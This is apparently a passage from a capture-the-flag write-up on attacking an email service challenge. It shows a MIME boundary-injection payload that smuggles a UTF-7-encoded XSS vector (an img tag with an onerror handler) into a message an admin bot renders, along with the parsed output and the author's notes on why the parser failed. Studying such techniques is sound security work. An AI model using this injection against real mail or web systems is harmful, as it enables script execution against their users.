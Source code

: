 ```json
<!DOCTYPE html>
<html>
<body>
  <div class="email-container">
      <h1>HIHI hi

--===============adminone==
Content-Type : text/html; charset=utf-7
MIME-Version : 1.0

+ADw-img+ACA-src+AD0-+ACI-x+ACI-+ACA-onerror+AD0-alert(1)+ADs-+ACA-/+AD4-
--===============adminone==
</h1>
      <pre>We&#39;ve gotten your message and will respond soon.

Thank you for choosing SES!

Best regards,

The Secure Email Service Team</pre>
  </div>
</body>
</html>
--===============adminone==--

==================== ADMIN VISIT SECOND TIME AFTER PARSE====================

{
  "from": "admin@ses",
  "html": "--===============adminone==\nContent-Type: text/plain; charset=\"us-ascii\"\nMIME-Version: 1.0\nContent-Transfer-Encoding: 7bit\n\n<!DOCTYPE html>\n<html>\n<body>\n  <div class=\"email-container\">\n      <h1>HIHI hi\n\n--===============adminone==\nContent-Type : text/html; charset=utf-7\nMIME-Version : 1.0\n\n<img src=\"x\" onerror=alert(1); />\n--===============adminone==\n</h1>\n      <pre>We&#39;ve gotten your message and will respond soon.\n\nThank you for choosing SES!\n\nBest regards,\n\nThe Secure Email Service Team</pre>\n  </div>\n</body>\n</html>\n--===============adminone==--\n",
  "subject": "Re: HIHI hi",
  "text": "--===============adminone==\nContent-Type: text/plain; charset=\"us-ascii\"\nMIME-Version: 1.0\nContent-Transfer-Encoding: 7bit\n\n<!DOCTYPE html>\n<html>\n<body>\n  <div class=\"email-container\">\n      <h1>HIHI hi\n\n--===============adminone==\nContent-Type : text/html; charset=utf-7\nMIME-Version : 1.0\n\n<img src=\"x\" onerror=alert(1); />\n--===============adminone==\n</h1>\n      <pre>We&#39;ve gotten your message and will respond soon.\n\nThank you for choosing SES!\n\nBest regards,\n\nThe Secure Email Service Team</pre>\n  </div>\n</body>\n</html>\n--===============adminone==--\n",
  "to": "admin@ses"
}
```
But after parsed it still not work ? After dynamically testing , i realize that this part make the parser error because its cannot understand the structure due to this point : 
```json
Subject: Re: HIHI hi
--===============adminone==
Content-Type : text/html; charset=utf-7
MIME-Version : 1.0
+ADw-img+ACA-src+AD0-+ACI-x+ACI-+ACA-onerror+AD0-alert(1)+ADs-+ACA-/+AD4-
--===============adminone==
THIS CONFUSE THE PARSER 
--===============adminone==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

```

